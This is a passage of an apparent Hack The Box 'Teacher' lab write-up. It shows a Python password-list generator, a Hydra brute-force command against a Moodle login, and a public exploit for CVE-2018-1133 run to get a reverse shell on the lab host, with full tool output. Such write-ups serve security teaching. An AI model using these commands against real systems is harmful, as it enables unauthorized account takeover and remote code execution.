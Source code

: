 ```shell
matt@kali:~/htb/teacher$ 
```

Knowing this information, I wrote a short script that would help me generate a password list.

```python
#!/bin/python3
import string
partial_pass = 'Th4C00lTheacha'
for c in string.printable:
     print(partial_pass + c)
```

With this password list, I utilized Hydra against the Moodle and found that `Th4C00lTheacha#` was a valid password for the user `giovanni`.

```shell
matt@kali:~/htb/teacher$ hydra -l giovanni -P passlist.txt 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-09 11:53:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-post-form://10.10.10.153:80/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login
[80][http-post-form] host: 10.10.10.153 login: giovanni password: Th4C00lTheacha#
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-09 11:54:15
matt@kali:~/htb/teacher$ 
```

![](moodle-home.png)

I discovered that this version of Moodle was susceptible to a remote code execution vulnerability (CVE-2018-1133) via a specifically crafted quiz. Since Giovanni was a teacher, I was able to exploit this vulnerability. I found a working exploit online ([darrynten/MoodleExploit](https://github.com/darrynten/MoodleExploit)), started up a netcat listener, and ran the exploit.

```shell
matt@kali:~/htb/teacher$ php MoodleExploit.php url=10.10.10.153/moodle/ user=giovanni pass=Th4C00lTheacha# ip=10.10.14.51 port=80 course=2
*------------------------------*
* Noodle [Moodle RCE] (v3.4.1) *
*------------------------------*
[!] Make sure you have a listener
[!] at 10.10.14.37:80
[*] Logging in as user giovanni with password Th4C00lTheacha#
[+] Successful Login
[>] Moodle Session 0ildt7rmmsti5em7p20sifmg17
[>] Moodle Key 7uEyE7rMXY
[*] Loading Course ID 2
[+] Successfully Loaded Course
[*] Enable Editing
[+] Successfully Enabled Course Editing
[*] Adding Quiz
[+] Successfully Added Quiz
[*] Configuring New Quiz
[+] Successfully Configured Quiz
[*] Loading Edit Quiz Page
[+] Successfully Loaded Edit Quiz Page
[*] Adding Calculated Question
[+] Successfully Added Calculation Question
[*] Adding Evil Question
[+] Successfully Created Evil Question
[*] Sending Exploit
[>] You should receive a reverse shell attempt from the target at 10.10.14.37 on port 80
```
